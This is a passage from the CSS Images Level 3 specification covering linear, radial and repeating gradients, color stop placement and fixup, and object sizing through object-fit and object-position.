Starting from the center of the gradient box, extend a line at the specified angle in both directions. The ending point is the point on the gradient line where a line drawn perpendicular to the gradient line would intersect the corner of the gradient box in the specified direction. The starting point is determined identically, but in the opposite direction.

> **Note:** It is expected that the next level of this module will provide the ability to define the gradient’s direction relative to the current text direction and writing-mode.

> **Example:** ![[An image showing a box with a background shading gradually from white in the bottom-left corner to black in the top-right corner. There is a line, illustrating the gradient line, angled at 45 degrees and passing through the center of the box. The starting point and ending point of the gradient line are indicated by the intersection of the gradient line with two additional lines that pass through the bottom-left and top-right corners of the box.]](../css-images-3/images/gradient-diagram.png)
>
> This example illustrates visually how to calculate the gradient line from the rules above. This shows the starting and ending point of the gradient line, along with the actual gradient, produced by an element with `background: linear-gradient(45deg, white, black);`.
>
> Notice how, though the starting point and ending point are outside of the box, they’re positioned precisely right so that the gradient is pure white *exactly* at the corner, and pure black *exactly* at the opposite corner. That’s intentional, and will always be true for linear gradients.

> **Note:** Given:
>
> - *A* the angle (in any quadrant) defining the gradient line’s direction such that 0 degrees points upwards and positive angles represent clockwise rotation,
> - *W* the width of the gradient box,
> - *H* the height of the gradient box,
>
> The length of the gradient line (between the starting point and ending point) is:
>
> `abs(W * sin(A)) + abs(H * cos(A))`

The gradient’s color stops are typically placed between the starting point and ending point on the gradient line, but this isn’t required: the gradient line extends infinitely in both directions. The starting point and ending point are merely arbitrary location markers, the starting point defining where 0%, 0px, etc are located when specifying color-stops, and the ending point defines where 100% is located. Color-stops are allowed to have positions before 0% or after 100%.

The color of a linear gradient at any point is determined by finding the unique line passing through that point that is perpendicular to the gradient line. The point’s color is the color of the gradient line at the point where this line intersects it.

##### 3.1.2. Linear Gradient Examples {#css-images-3:linear-gradient-examples}

All of the following `linear-gradient()` examples are presumed to be backgrounds applied to a box that is 200px wide and 100px tall.

> **Example:** Below are various ways of specifying a basic vertical gradient:
>
> ```
> linear-gradient(yellow, blue);
> linear-gradient(to bottom, yellow, blue);
> linear-gradient(180deg, yellow, blue);
> linear-gradient(to top, blue, yellow);
> linear-gradient(to bottom, yellow 0%, blue 100%);
> ```
>
> 

> **Example:** This demonstrates the use of an angle in the gradient. Note that, though the angle is not exactly the same as the angle between the corners, the gradient line is still sized so as to make the gradient yellow exactly at the upper-left corner, and blue exactly at the lower-right corner.
>
> ```
> linear-gradient(135deg, yellow, blue);
> linear-gradient(-45deg, blue, yellow);
> ```
>
> 

> **Example:** This demonstrates a 3-color gradient, and how to specify the location of a stop explicitly:
>
> ```
> linear-gradient(yellow, blue 20%, #0f0);
> ```
>
> 

> **Example:** This demonstrates a corner-to-corner gradient specified with keywords. Note how the gradient is red and blue exactly in the bottom-left and top-right corners, respectively, exactly like the second example. Additionally, the angle of the gradient is automatically computed so that the color at 50% (in this case, white) stretches across the top-left and bottom-right corners.
>
> ```
> linear-gradient(to top right, red, white, blue)
> ```
>
> 

#### 3.2. Radial Gradients: the `radial-gradient()` notation {#css-images-3:radial-gradients}

In a radial gradient, rather than colors smoothly fading from one side of the gradient box to the other as with linear gradients, they instead emerge from a single point and smoothly spread outward in a circular or elliptical shape.

The **radial-gradient()** notation specifies a radial gradient by indicating the center of the gradient (where the 0% ellipse will be) and the size and shape of the **ending shape** (the 100% ellipse). Color stops are given as a list, just as for `linear-gradient()`. Starting from the gradient center and progressing towards (and potentially beyond) the ending shape, uniformly-scaled concentric ellipses are drawn and colored according to the specified color stops.

##### 3.2.1. radial-gradient() Syntax {#css-images-3:radial-gradient-syntax}

The radial gradient syntax is:

```css
<radial-gradient()> = radial-gradient( [ <radial-gradient-syntax> ] )

<radial-gradient-syntax> =
  [ <radial-shape> || <radial-size> ]? [ at <position> ]? ,
  <color-stop-list>

<radial-size> = <radial-extent> | <length [0,∞]> | <length-percentage [0,∞]>{2}

<radial-extent> = closest-corner | closest-side | farthest-corner | farthest-side

<radial-shape> = circle | ellipse
```

> **Example:** Here is an example of a circular radial gradient 5em wide and positioned with its center in the top left corner:
>
> ```
> radial-gradient(5em circle at top left, yellow, blue)
> ```

> **Note:** A future level may add the ability to move the focus of the gradient, as in the original -webkit-gradient() function. See [proposal](http://lists.w3.org/Archives/Public/www-style/2011Nov/0210.html) tracked in [Issue 1575](https://github.com/w3c/csswg-drafts/issues/1575) for "from `<position>`" and "from offset `<offset>`".

The arguments are defined as follows:

****`<position>`****

: Determines the **center** of the gradient. The `<position>` value type (which is also used for `background-position`) is defined in [CSS-VALUES-3], and is resolved using the center-point as the object area and the gradient box as the positioning area. If this argument is omitted, it defaults to center.

****`<radial-shape>`****

: Can be either **circle** or **ellipse**; determines whether the gradient’s ending shape is a circle or an ellipse, respectively. If `<radial-shape>` is omitted, the ending shape defaults to a circle if the `<radial-size>` is a single `<length>`, and to an ellipse otherwise.

****`<radial-size>`****

: Determines the size of the gradient’s ending shape. If omitted it defaults to `farthest-corner`. It can be given explicitly or by keyword. For the purpose of the keyword definitions, consider the gradient box edges as extending infinitely in both directions, rather than being finite line segments.

  If the ending-shape is an ellipse, its axises are aligned with the horizontal and vertical axises.

  Both `circle` and `ellipse` gradients accept the following `<radial-extent>` values:

  ****closest-side****

  : The ending shape is sized so that it exactly meets the side of the gradient box closest to the gradient’s center. If the shape is an ellipse, it exactly meets the closest side in each dimension.

  ****farthest-side****

  : Same as `closest-side`, except the ending shape is sized based on the farthest side(s).

  ****closest-corner****

  : The ending shape is sized so that it passes through the corner of the gradient box closest to the gradient’s center. If the shape is an ellipse, the ending shape is given the same aspect-ratio it would have if `closest-side` were specified.

  ****farthest-corner****

  : Same as `closest-corner`, except the ending shape is sized based on the farthest corner. If the shape is an ellipse, the ending shape is given the same aspect ratio it would have if `farthest-side` were specified.

  If `<radial-shape>` is specified as `circle` or is omitted, the `<radial-size>` may be given explicitly as:

  ****<length [0,∞]>****

  : Gives the radius of the circle explicitly. Negative values are invalid.

    > **Note:** Percentages are *not* allowed here; they can only be used to specify the size of an elliptical gradient, not a circular one. This restriction exists because there is are multiple reasonable answers as to which dimension the percentage should be relative to. A future level of this module may provide the ability to size circles with percentages, perhaps with more explicit controls over which dimension is used.

  If `<radial-shape>` is specified as `ellipse` or is omitted, `<radial-size>` may instead be given explicitly as:

  ****`<length-percentage [0,∞]>`{2}****

  : Gives the size of the ellipse explicitly. The first value represents the horizontal radius, the second the vertical radius. Percentages values are relative to the corresponding dimension of the gradient box. Negative values are invalid.

> **Note:** Expanded with the above definitions, the grammar becomes:
>
> ```
> radial-gradient() = radial-gradient(
>   [ [ circle               || <length [0,∞]> ]                          [ at <position> ]? , |
>     [ ellipse              || <length-percentage [0,∞]>{2} ]            [ at <position> ]? , |
>     [ [ circle | ellipse ] || <radial-extent> ]                     [ at <position> ]? , |
>     at <position>,
>   ]?
>   <color-stop-list>
> )
> ```

##### 3.2.2. Placing Color Stops {#css-images-3:radial-color-stops}

Color-stops are placed on a gradient line shaped like a ray (a line that starts at one point, and extends infinitely in a one direction), similar to the gradient line of linear gradients. The gradient line’s starting point is at the center of the gradient, and it extends toward the right, with the ending point on the point where the gradient line intersects the ending shape. A color-stop can be placed at a location before 0%; though the negative region of the gradient line is never directly consulted for rendering, color stops placed there can affect the color of non-negative locations on the gradient line through interpolation or repetition (see [repeating gradients](#css-images-3:repeating-gradients)). For example, `radial-gradient(red -50px, yellow 100px)` produces an elliptical gradient that starts with a reddish-orange color in the center (specifically, #f50) and transitions to yellow. Locations greater than 100% simply specify a location a correspondingly greater distance from the center of the gradient.

The color of the gradient at any point is determined by first finding the unique ellipse passing through that point with the same center, orientation, and ratio between major and minor axises as the ending-shape. The point’s color is then the color of the positive section of the gradient line at the location where this ellipse intersects it.

##### 3.2.3. Degenerate Radial Gradients {#css-images-3:degenerate-radials}

Some combinations of position, size, and shape will produce a circle or ellipse with a radius of 0. This will occur, for example, if the center is on a gradient box edge and `closest-side` or `closest-corner` is specified or if the size and shape are given explicitly and either of the radiuses is zero. In these degenerate cases, the gradient must be rendered as follows:

**If the ending shape is a circle with zero radius:**

: Render as if the ending shape was a circle whose radius was an arbitrary very small number greater than zero. This will make the gradient continue to look like a circle.

**If the ending shape has zero width (regardless of the height):**

: Render as if the ending shape was an ellipse whose height was an arbitrary very large number and whose width was an arbitrary very small number greater than zero. This will make the gradient look similar to a horizontal linear gradient that is mirrored across the center of the ellipse. It also means that all color-stop positions specified with a percentage resolve to `0px`.

**Otherwise, if the ending shape has zero height:**

: Render as if the ending shape was an ellipse whose width was an arbitrary very large number and whose height was an arbitrary very small number greater than zero. This will make the gradient look like a solid-color image equal to the color of the last color-stop, or equal to the average color of the gradient if it’s repeating.

##### 3.2.4. Radial Gradient Examples {#css-images-3:radial-gradient-examples}

All of the following examples are applied to a box that is 200px wide and 100px tall.

> **Example:** These examples demonstrate different ways to write the basic syntax for radial gradients:
>
> ```
> radial-gradient(yellow, green);
> radial-gradient(ellipse at center, yellow 0%, green 100%);
> radial-gradient(farthest-corner at 50% 50%, yellow, green);
> ```
>
> 
>
> ```
> radial-gradient(circle, yellow, green);
> ```
>
> 
>
> ```
> radial-gradient(red, yellow, green);
> ```
>
> 

> **Example:** This image shows a gradient originating from somewhere other than the center of the box:
>
> ```
> radial-gradient(farthest-side at left bottom, red, yellow 50px, green);
> ```
>
> 

> **Example:** Here we illustrate a `closest-side` gradient.
>
> ```
> radial-gradient(closest-side at 20px 30px, red, yellow, green);
> radial-gradient(20px 30px at 20px 30px, red, yellow, green);
> ```
>
> 
>
> ```
> radial-gradient(closest-side circle at 20px 30px, red, yellow, green);
> radial-gradient(20px 20px at 20px 30px, red, yellow, green);
> ```
>
> 

#### 3.3. Repeating Gradients: the `repeating-linear-gradient()` and `repeating-radial-gradient()` notations {#css-images-3:repeating-gradients}

In addition to `linear-gradient()` and `radial-gradient()`, this specification defines **repeating-linear-gradient()** and **repeating-radial-gradient()** values. These notations take the same values and are interpreted the same as their respective non-repeating siblings defined previously.

```css
<repeating-linear-gradient()> = repeating-linear-gradient( [ <linear-gradient-syntax> ] )
<repeating-radial-gradient()> = repeating-radial-gradient( [ <radial-gradient-syntax> ] )
```

When rendered, however, the color-stops are repeated infinitely in both directions, with their positions shifted by multiples of the difference between the last specified color-stop’s position and the first specified color-stop’s position. For example, `repeating-linear-gradient(red 10px, blue 50px)` is equivalent to `linear-gradient(..., red -30px, blue 10px, red 10px, blue 50px, red 50px, blue 90px, ...)`. Note that the last color-stop and first color-stop will always coincide at the boundaries of each group, which will produce sharp transitions if the gradient does not start and end with the same color.

> **Example:** Repeating gradient syntax is identical to that of non-repeating gradients:
>
> ```
> repeating-linear-gradient(red, blue 20px, red 40px)
> ```
>
> 
>
> ```
> repeating-radial-gradient(red, blue 20px, red 40px)
> ```
>
> 
>
> ```
> repeating-radial-gradient(circle closest-side at 20px 30px, red, yellow, green 100%, yellow 150%, red 200%)
> ```
>
> 

If the distance between the first and last color-stops is non-zero, but is small enough that the implementation knows that the physical resolution of the output device is insufficient to faithfully render the gradient, the implementation must find the average color of the gradient and render the gradient as a solid-color image equal to the average color.

If the distance between the first and last color-stops is zero (or rounds to zero due to implementation limitations), the implementation must find the average color of a gradient with the same number and color of color-stops, but with the first and last color-stop an arbitrary non-zero distance apart, and the remaining color-stops equally spaced between them. Then it must render the gradient as a solid-color image equal to that average color.

If the width of the ending shape of a repeating radial gradient is non-zero and the height is zero, or is close enough to zero that the implementation knows that the physical resolution of the output device is insufficient to faithfully render the gradient, the implementation must find the average color of the gradient and render the gradient as a solid-color image equal to the average color.

> **Note:** The [Degenerate Radial Gradients](#css-images-3:degenerate-radials) section describes how the ending shape is adjusted when its width is zero.

To **find the average color of a gradient**, run these steps:

1. Define *list* as an initially-empty list of premultiplied RGBA colors, and *total-length* as the distance between first and last color stops.
2. For each adjacent pair of color-stops, define *weight* as half the distance between the two color-stops, divided by *total-length*. Add two entries to *list*, the first obtained by representing the color of the first color-stop in premultiplied sRGBA and scaling all of the components by *weight*, and the second obtained in the same way with the second color-stop.
3. Sum the entries of *list* component-wise to produce the average color, and return it.

> **Note:** As usual, implementations may use whatever algorithm they wish, so long as it produces the same result as the above.

> **Example:** For example, the following gradient is rendered as a solid light-purple image (equal to `rgb(75%,50%,75%)`):
>
> ```css
> repeating-linear-gradient(red 0px, white 0px, blue 0px);
> ```
>
> The following gradient would render the same as the previous under normal circumstances (because desktop monitors can’t faithfully render color-stops 1/10th of a pixel apart), but would render as a normal repeating gradient if, for example, the author applied "zoom:100;" to the element on which the gradient appears:
>
> ```css
> repeating-linear-gradient(red 0px, white .1px, blue .2px);
> ```

#### 3.4. Defining Gradient Color {#css-images-3:gradient-colors}

The colors in gradients are specified using **color stops** (a `<color>` and a corresponding position on the gradient line) and **color transition hints** (a position between two color stops representing the halfway point in the color transition) which are placed on the gradient line, defining the color at every point of the line. (Each gradient function defines the shape and length of the gradient line, along with its starting point and ending point; see above.)

Colors throughout the gradient field are then determined by tying them to specific points along the gradient line as specified by the gradient function. UAs may “dither” gradient colors slightly (randomly alternate individual pixels with nearby colors on the gradient line) to effect a smoother gradient.

##### 3.4.1.  Color Stop Lists {#css-images-3:color-stop-syntax}

Color stops and transition hints are specified in a **color stop list**, which is a list of one or more color stops interleaved with optional transition hints:

```css
<color-stop-list> =
  <linear-color-stop> , [ <linear-color-hint>? , <linear-color-stop> ]#?
<linear-color-stop> = <color> <length-percentage>?
<linear-color-hint> = <length-percentage>
```

Percentages are resolved against the length of the gradient line between the starting point and ending point, with 0% being at the starting point and 100% being at the ending point. Lengths are measured along the gradient line from the starting point in the direction of the ending point.

Color stop and transition hint positions are usually placed between the starting point and ending point, but that’s not required: the gradient line extends infinitely in both directions, and positions can be specified anywhere on the gradient line.

When the position of a color stop is omitted, it is automatically assigned a position. The first or last color stop in the color stop list is assigned the gradient line’s starting point or ending point (respectively). Otherwise, it’s assigned the position halfway between the two surrounding stops. If multiple stops in a row lack a position, they space themselves out equally between the surrounding positioned stops. See [§ 3.4.3 Color Stop “Fixup”](#css-images-3:color-stop-fixup) for details.

##### 3.4.2.  Coloring the Gradient Line {#css-images-3:coloring-gradient-line}

At each color stop position, the gradient line is the color of the color stop. Before the first color stop, the gradient line is the color of the first color stop, and after the last color stop, the gradient line is the color of the last color stop. Between two color stops, the gradient line’s color is interpolated between the colors of the two color stops, with the interpolation taking place in [premultiplied RGBA space](#css-images-3:premultiplied).

By default, this interpolation is linear—​at 25%, 50%, or 75% of the distance between two color stops, the color is a 25%, 50%, or 75% blend of the colors of the two stops.

However, if a transition hint was provided between two color stops, the interpolation is non-linear, and controlled by the hint:

1. Determine the location of the transition hint as a percentage of the distance between the two color stops, denoted as a number between 0 and 1, where 0 indicates the hint is placed right on the first color stop, and 1 indicates the hint is placed right on the second color stop. Let this percentage be *H*.
2. For any given point between the two color stops, determine the point’s location as a percentage of the distance between the two color stops, in the same way as the previous step. Let this percentage be *P*.
3. Let *C*, the color weighting at that point, be equal to `PlogH(.5)`.
4. The color at that point is then a linear blend between the colors of the two color stops, blending `(1 - C)` of the first stop and *C* of the second stop.

> **Note:** The transition hint specifies where the “halfway color”—​the 50% blend between the colors of the two surrounding color stops—​should be placed. When the hint is exactly halfway between the two surrounding color stops, the above interpolation algorithm happens to produce the ordinary linear interpolation. If the hint is placed anywhere else, it produces a smooth exponential curve between the surrounding color stops, with the “halfway color” occurring exactly where the hint specifies.

> **Issue:** Add a visual example of a color hint being used.

If multiple color stops have the same position, they produce an infinitesimal transition from the one specified first in the list to the one specified last. In effect, the color suddenly changes at that position rather than smoothly transitioning.

> **Note:** What does “pre-multiplied” mean?
>
> A “pre-multiplied” color is written in a form where the alpha channel is multiplied into the color channels, rather than being processed independently. For example, a partially-transparent blue may be given as `rgba(0, 0, 255, .5)`, which would then be expressed as `[0, 0, 127.5, .5]` in its premultiplied representation.
>
> Interpolating colors using the premultiplied representations rather than the plain rgba representations tends to produce more attractive transitions, particularly when transitioning from a fully opaque color to fully transparent.
>
> Note that transitions where either the transparency or the color are held constant (for example, transitioning between `rgba(255, 0, 0, 100%)` (opaque red) and `rgba(0,0,255,100%)` (opaque blue), or `rgba(255,0,0,100%)` (opaque red) and `rgba(255,0,0,0%)` (transparent red)) have identical results whether the color interpolation is done in premultiplied or non-premultiplied color-space. Differences only arise when *both* the color and transparency differ between the two endpoints.
>
> > **Example:** The following example illustrates the difference between a gradient transitioning in pre-multiplied sRGBA and one transitioning (incorrectly) in non-premultiplied. In both of these example, the gradient is drawn over a white background. Both gradients could be written with the following value:
> >
> > ```
> > linear-gradient(90deg, red, transparent, blue)
> > ```
> >
> > With premultiplied colors, transitions to or from "transparent" always look nice:
> >
> > (Image requires SVG)
> >
> > On the other hand, if a gradient were to incorrectly transition in non-premultiplied space, the center of the gradient would be a noticeably grayish color, because "transparent" is actually a shorthand for `rgba(0,0,0,0)`, or transparent black, meaning that the red transitions to a black as it loses opacity, and similarly with the blue’s transition:
> >
> > (Image requires SVG)

##### 3.4.3.  Color Stop “Fixup” {#css-images-3:color-stop-fixup}

When resolving the used positions of each color stop, the following steps must be applied *in order*:

1. If the first color stop does not have a position, set its position to 0%.
2. If the last color stop does not have a position, set its position to 100%.
3. If a color stop or transition hint has a position that is less than the specified position of any color stop or transition hint before it in the list, set its position to be equal to the largest specified position of any color stop or transition hint before it.
4. If any color stop still does not have a position, then, for each run of adjacent color stops without positions, set their positions so that they are evenly spaced between the preceding and following color stops with positions.

After applying these rules, all color stops and transition hints will have a definite position and color and they will be in ascending order.

> **Note:** It is recommended that authors exercise caution when mixing different types of units, such as px, em, or %, as this can cause a color stop to unintentionally try to move before an earlier one. For example, the rule `background-image: linear-gradient(yellow 100px, blue 50%)` wouldn’t trigger any fix-up while the background area is at least `200px` tall. If it was `150px` tall, however, the blue color stop’s position would be equivalent to `75px`, which precedes the yellow color stop, and would be corrected to a position of `100px`. Additionally, since the relative ordering of such color stops cannot be determined without performing layout, they will not interpolate smoothly in [animations](#css-animations-2) or [transitions](#css-transitions-2).

> **Example:** Below are several pairs of gradients. The latter of each pair is a manually “fixed-up” version of the former, obtained by applying the above rules. For each pair, both gradients will render identically. The numbers in each arrow specify which fixup steps are invoked in the transformation.
>
> ```
> 1. linear-gradient(red, white 20%, blue)
>    =1=>
>    linear-gradient(red 0%, white 20%, blue 100%)
>
> 2. linear-gradient(red 40%, white, black, blue)
>    =1,3=>
>    linear-gradient(red 40%, white 60%, black 80%, blue 100%)
>
> 3. linear-gradient(red -50%, white, blue)
>    =1,3=>
>    linear-gradient(red -50%, white 25%, blue 100%)
>
> 4. linear-gradient(red -50px, white, blue)
>    =1,3=>
>    linear-gradient(red -50px, white calc(-25px + 50%), blue 100%)
>
> 5. linear-gradient(red 20px, white 0px, blue 40px)
>    =2=>
>    linear-gradient(red 20px, white 20px, blue 40px)
>
> 6. linear-gradient(red, white -50%, black 150%, blue)
>    =1,2=>
>    linear-gradient(red 0%, white 0%, black 150%, blue 150%)
>
> 7. linear-gradient(red 80px, white 0px, black, blue 100px)
>    =2,3=>
>    linear-gradient(red 80px, white 80px, black 90px, blue 100px)
> ```

### 4. Sizing Images and Objects in CSS {#css-images-3:sizing}

Images used in CSS may come from a number of sources: from binary image formats (such as gif, jpeg, etc), dedicated markup formats (such as SVG), and CSS-specific formats (such as the linear-gradient() value type defined in this specification). As well, a document may contain many other types of objects, such as video, plugins, or nested documents. These images and objects (just **objects** hereafter) may offer many types of sizing information to CSS, or none at all. This section defines generically the size negotiation model between the object and the CSS layout algorithms.

#### 4.1. Object-Sizing Terminology {#css-images-3:sizing-terms}

In order to define this handling, we define a few terms, to make it easier to refer to various concepts:

****natural dimensions****

: The term natural dimensions refers to the set of the **natural height**, **natural width**, and **natural aspect ratio** (the ratio between the width and height), each of which may or may not exist for a given object. These natural dimensions represent the preferred sizing intrinsic to the object itself; that is, they are not a function of the context in which the object is used. CSS does not define how the natural dimensions are found in general.

  Raster images are an example of an object with all three natural dimensions. SVG images designed to scale might have only a natural aspect ratio; SVG images can also be created with only a natural width or height. CSS gradients, defined in this specification, are an example of an object with no natural dimensions at all. Another example of this is embedded documents, such as the `iframe` element in HTML. Many objects, such as most images, cannot have only two natural dimensions, as any two automatically define the third. However some types of replaced elements, such as form controls, can have a natural width and a natural height, but no natural aspect ratio.

  If an object has a degenerate natural aspect ratio (at least one part being zero or infinity), it is treated as having no natural aspect ratio.

  If an object (such as an icon) has multiple sizes, then the largest size (by area) is taken as its natural dimensions. If it has multiple aspect ratios at that size, or has multiple aspect ratios and no size, then the aspect ratio closest to the aspect ratio of the default object size is used. Determine this by seeing which aspect ratio produces the largest area when fitting it within the default object size using a contain constraint fit; if multiple sizes tie for the largest area, the widest size is chosen as its natural dimensions.

  The natural width and natural height are collectively referred to the **natural sizes**.

****specified size****

: The specified size of an object is given by CSS, such as through the `width` and `height` or `background-size` properties. The specified size can be a definite width and height, a set of constraints, or a combination thereof.

****concrete object size****

: The concrete object size is the result of combining an object’s natural dimensions and specified size with the default object size of the context it’s used in, producing a rectangle with an absolute width and height.

****default object size****

: The default object size is a rectangle with an absolute height and width used to determine the concrete object size when both the natural dimensions and specified size are missing dimensions.

#### 4.2. CSS⇋Object Negotiation {#css-images-3:object-negotiation}

Objects in CSS are sized and rendered by the **object size negotiation** algorithm as follows:

1. When an object is specified in a document, such as through a `url()` value in a `background-image` property or a `src` attribute on an `img` element, CSS queries the object for its natural dimensions.
2. Using the natural dimensions, the specified size, and the default object size for the context the object is used in, CSS then computes a concrete object size. (See the [following section](#css-images-3:default-sizing).) This defines the size and position of the region the object will render in.
3. CSS asks the object to render itself at the concrete object size. CSS does not define how objects render when the concrete object size is different from the object’s natural dimensions. The object may adjust itself to match the concrete object size in some way, or even render itself larger or smaller than the concrete object size to satisfy sizing constraints of its own.
4. Unless otherwise specified by CSS, the object is then clipped to the concrete object size.

#### 4.3. Concrete Object Size Resolution {#css-images-3:concrete-size-resolution}

Currently the rules for sizing objects are described in each context that such objects are used. This section defines some common sizing constraints and how to resolve them so that future specs can refer to them instead of redefining size resolution in each instance.

##### 4.3.1. Default Sizing Algorithm {#css-images-3:default-sizing}

The **default sizing algorithm** is a set of rules commonly used to find an object’s concrete object size. It resolves the simultaneous constraints presented by the object’s natural dimensions and either an unconstrained specified size or one consisting of only a definite width and/or height.

Some object sizing rules (such as those for `list-style-image`) correspond exactly to the default sizing algorithm. Others (such as those for `border-image`) invoke the default sizing algorithm but also apply additional sizing rules before arriving at a final concrete object size.

The default sizing algorithm is defined as follows:

- If the specified size is a definite width and height, the concrete object size is given that width and height.
- If the specified size is only a width or height (but not both) then the concrete object size is given that specified width or height. The other dimension is calculated as follows:

  1. If the object has a natural aspect ratio, the missing dimension of the concrete object size is calculated using that aspect ratio and the present dimension.
  2. Otherwise, if the missing dimension is present in the object’s natural dimensions, the missing dimension is taken from the object’s natural dimensions.
  3. Otherwise, the missing dimension of the concrete object size is taken from the default object size.
- If the specified size has no constraints:

  1. If the object has a natural height or width, its size is resolved as if its natural dimensions were given as the specified size.
  2. Otherwise, its size is resolved as a contain constraint against the default object size.

##### 4.3.2. Cover and Contain Constraint Sizing {#css-images-3:cover-contain}

Two other common specified sizes are the contain constraint and the cover constraint, both of which are resolved against a specified **constraint rectangle** using the object’s preferred aspect ratio:

- A **contain constraint** is resolved by setting the concrete object size to the largest rectangle that has the object’s natural aspect ratio and additionally has neither width nor height larger than the constraint rectangle’s width and height, respectively.
- A **cover constraint** is resolved by setting the concrete object size to the smallest rectangle that has the object’s natural aspect ratio and additionally has neither width nor height smaller than the constraint rectangle’s width and height, respectively.

In both cases, if the object doesn’t have a natural aspect ratio, the concrete object size is the specified constraint rectangle.

#### 4.4. Examples of CSS Object Sizing {#css-images-3:object-sizing-examples}

> **Example:** The following examples show how the [CSS 2.1](#css2) and [CSS3 Backgrounds & Borders](#css-backgrounds-4) sizing algorithms correspond to concepts defined in this specification.
>
> **`background-image`**
>
> : The rules for calculating the concrete object size of a background are defined in [CSS2.1§14.2.1](#css2:background-properties) and [CSS3BG§3.9](#css-backgrounds-4:the-background-size). CSS2.1 uses the default sizing algorithm with no specified size and the background positioning area as the default object size. [CSS2] In CSS3, `background-size` property can give a sizing constraint, invoking either the default sizing algorithm or one of the contain or cover constraints. The concrete object size is further adjusted in later steps if `background-repeat` has a `round` value. [CSS3BG]
>
> **`list-style-image`**
>
> : The rules for calculating the concrete object size of a list-style image are defined in [CSS2.1§12.5.1](#css2:propdef-list-style-image). They use the default sizing algorithm with no specified size and a default object size of 1em square.
>
> **`border-image`**
>
> : Border images are sized twice: first the entire image is sized to determine the slice points, then the slices are sized to decorate the border. The first sizing operation is defined in [CSS3BG§6.2](#css-backgrounds-4:the-border-image-slice) and uses the default sizing algorithm with no specified size, and the [border image area](#css-backgrounds-4:border-image-area) as the default object size. The second operation is defined in [CSS3BG§6.2](#css-backgrounds-4:border-image-process): the default sizing algorithm is used to determine an initial size for each slice with the corresponding border image area part as the default object size. By default the specified size matches this default object size; however the `border-image-repeat` property can drop the specified size in one or more directions and may also apply an additional rounding step. [CSS3BG]
>
> **`cursor`**
>
> : The rules for calculating the concrete object size of a cursor are defined in [CSS2.1 § 18.1: Cursors](#css2:cursor-props). The default object size is a UA-defined size that should be based on the size of a typical cursor on the UA’s operating system. [CSS2]
>
> **`content`**
>
> : Objects inserted via the CSS2.1 `content` property are anonymous [replaced elements](#css2:replaced-element), and are sized the same way. [CSS2] Note that such anonymous elements have all their non-inherited properties (including `width`, `height`, etc.) set to their initial values.
>
> **[replaced elements](#css2:replaced-element)**
>
> : [CSS 2.1](#css2) defines the sizing of replaced elements (including those inserted as [generated content](#css2:content) via `content`) in sections [10.3.2](#css2:inline-replaced-width), [10.4](#css2:min-max-widths), [10.6.2](#css2:inline-replaced-height), and [10.7](#css2:min-max-heights). [CSS2] The `object-fit` property defined below defines how the concrete object size corresponds to the element’s used width and height; by default they coincide.

#### 4.5. Sizing Objects: the `object-fit` property {#css-images-3:the-object-fit}

| Field | Value |
| --- | --- |
| Name: | **object-fit** |
| [Value:](#css-values-4:value-defs) | fill \| contain \| cover \| none \| scale-down |
| [Initial:](#css-cascade-6:initial-values) | fill |
| [Applies to:](#css-cascade-5:applies-to) | replaced elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `object-fit` property specifies how the contents of a replaced element should be fitted to the box established by its used height and width.

****fill****

: The replaced content is sized to fill the element’s content box: the object’s concrete object size is the element’s used width and height.

****contain****

: The replaced content is sized to maintain its natural aspect ratio while fitting within the element’s content box: its concrete object size is resolved as a contain constraint against the element’s used width and height.

****cover****

: The replaced content is sized to maintain its natural aspect ratio while filling the element’s entire content box: its concrete object size is resolved as a cover constraint against the element’s used width and height.

****none****

: The replaced content is not resized to fit inside the element’s content box: determine the object’s concrete object size using the default sizing algorithm with no specified size, and a default object size equal to the replaced element’s used width and height.

****scale-down****

: Size the content as if `none` or `contain` were specified, whichever would result in a smaller concrete object size.

  > **Note:** Both `none` and `contain` respect the content’s natural aspect ratio, so the concept of "smaller" is well-defined.

If the content does not completely fill the replaced element’s content box, the unfilled space shows the replaced element’s background. Since replaced elements always clip their contents to the content box, the content will never overflow. See the `object-position` property for positioning the object with respect to the content box.


An example showing how four of the values of `object-fit` cause the replaced element (blue figure) to be scaled to fit its height/width box (shown with a green background), using the initial value for `object-position`. The fifth value, `scale-down`, in this case looks identical to `contain`.

> **Note:** The `object-fit` property has similar semantics to the `fit` attribute in [SMIL10] and the `<meetOrSlice>` parameter on the [`preserveAspectRatio` attribute](https://www.w3.org/TR/SVG11/coords.html#PreserveAspectRatioAttribute) in [SVG11].

> **Note:** Per the object size negotiation algorithm, the concrete object size (or, in this case, the size of the content) does not directly scale the object itself - it is merely passed to the object as information about the size of the visible canvas. How to then draw into that size is up to the image format. In particular, raster images always scale to the given size, while SVG uses the given size as the size of the "SVG Viewport" (a term defined by SVG) and then uses the values of several attributes on the root `<svg>` element to determine how to draw itself.

#### 4.6. Positioning Objects: the `object-position` property {#css-images-3:the-object-position}

| Field | Value |
| --- | --- |
| Name: | **object-position** |
| [Value:](#css-values-4:value-defs) | `<position>` |
| [Initial:](#css-cascade-6:initial-values) | 50% 50% |
| [Applies to:](#css-cascade-5:applies-to) | replaced elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width and height of element itself |
| [Computed value:](#css-cascade-6:computed) | as for `background-position` |
| [Canonical order:](#cssom-1:serializing-css-values) | the horizontal component of the `<position>`, followed by the vertical component |
| [Animation type:](#web-animations-1:animation-type) | as for `background-position` |

The `object-position` property determines the alignment of the replaced element inside its box. The `<position>` value type (which is also used for `background-position`) is defined in [CSS-VALUES-3], and is resolved using the concrete object size as the object area and the content box as the positioning area.

> **Note:** Areas of the box not covered by the replaced element will show the element’s background.

### 5. Image Processing {#css-images-3:image-processing}

#### 5.1. Orienting an Image on the Page: the `image-orientation` property {#css-images-3:the-image-orientation}

If a picture is taken with a camera turned on its side, or a document isn’t positioned correctly within a scanner, the resultant image may be "sideways" or even upside-down. The `image-orientation` property provides a way to apply an "out-of-band" rotation to image source data to correctly orient an image.

| Field | Value |
| --- | --- |
| Name: | **image-orientation** |
| [Value:](#css-values-4:value-defs) | from-image \| none \| [ `<angle>` \|\| flip ] |
| [Initial:](#css-cascade-6:initial-values) | from-image |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
